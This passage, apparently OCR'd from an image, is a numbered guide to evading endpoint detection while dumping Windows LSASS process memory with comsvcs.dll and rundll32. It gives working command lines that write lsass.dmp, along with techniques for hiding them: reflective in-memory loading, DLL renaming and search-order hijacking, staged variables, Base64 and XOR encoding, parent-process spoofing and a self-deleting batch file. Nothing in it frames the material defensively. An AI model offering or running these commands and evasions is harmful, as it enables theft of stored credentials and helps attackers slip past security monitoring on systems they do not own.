   - **In-Memory Assembly Loading**: Load the `comsvcs.dll` and execute the dump operation directly in memory using a script or a tool that supports reflective DLL loading. This avoids writing `comsvcs.dll` to disk.

### 3. **Using Alternate DLLs**
   - **Custom DLL Loading**: If allowed, you could rename `comsvcs.dll` or use another DLL that performs a similar function, reducing the chance that a specific signature will match.

   - **Hijack DLL Path**: Modify the DLL search order to load a modified version of `comsvcs.dll` that performs the same operation but with added obfuscation.

### 4. **Staging the Command in Chunks**
   - **Execution in Stages**: Break down the execution process into multiple stages to avoid detection by heuristic-based systems.

     ```cmd
     set dumpcmd=rundll32.exe
     set dllpath=c:\windows\system32\comsvcs.dll, MiniDump
     set pid=1234
     set output=c:\windows\temp\lsass.dmp
     %dumpcmd% %dllpath% %pid% %output% full
     ```

### 5. **Encoding and Decoding**
   - **Base64 Encoding**: Encode the command in Base64 and decode it on the fly before execution.

     ```cmd
     powershell -encodedCommand <Base64String>
     ```

   - **XOR Obfuscation**: Use XOR or another simple encoding mechanism to obfuscate the command and then decode it at runtime.

### 6. **Indirect Command Execution**
   - **Parent-Child Process Spoofing**: Execute the dump command from a less suspicious parent process or chain it through other benign processes to mask the true intent.

     ```cmd
     powershell -c "Start-Process rundll32.exe -ArgumentList 'c:\windows\system32\comsvcs.dll, MiniDump 1234 c:\windows\temp\lsass.dmp full'"
     ```

### 7. **Using a Wrapper Script or Binary**
   - **Wrapper Script**: Write a script or small binary that obfuscates the actual dump command by hiding it in complex logic or disguising it as a legitimate task.

   - **Self-deleting Script**: Create a script that runs the dump command and then deletes itself to remove traces.

     ```cmd
     echo rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump 1234 c:\windows\temp\lsass.dmp full > temp.bat
     temp.bat & del temp.bat
     ```
